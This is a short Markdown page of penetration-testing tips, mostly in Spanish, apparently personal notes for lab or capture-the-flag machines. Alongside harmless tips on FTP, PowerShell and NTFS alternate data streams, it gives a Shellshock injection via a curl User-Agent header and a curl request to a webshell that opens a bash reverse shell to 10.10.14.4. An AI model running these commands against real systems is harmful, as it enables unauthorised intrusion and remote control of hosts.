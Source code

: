 ```yaml
---
title: tips
category: varios
order: 1
---
```



# stderr y stdout
a veces los comandos por ejemplo en shellshock salen por stderr asi que tenemos que redireccionar stdout a stderr ex:
```
root@kali:~# curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; nc  -h 2>&1; echo zzzz;'" http://10.11.1.71/cgi-bin/admin.cgi -s \
```

# unzip with python
```
#!/usr/bin/env python3
import sys
from zipfile import PyZipFile
for zip_file in sys.argv[1:]:
    pzf = PyZipFile(zip_file)
    pzf.extractall()
```

# urlencode webshell request with curl
```
curl -X POST http://10.10.10.143/pwned.php --data-urlencode ​ 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.4/1234 0>&1"'
```

# run bash commands from powershell (wut)
```
PS C:\windows> bash -c "command"
```

# FTP
bajar archivos con tipo binario porque los rompe sino
```
ftp> type binary
ftp> get backup.mdb
```

# powershell hidden files  
```
dir -Force
```
# data stream
```
dir /R
hm.txt:root.txt:$DATA
```
```
​powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```
```
more < hm.txt:root.txt
```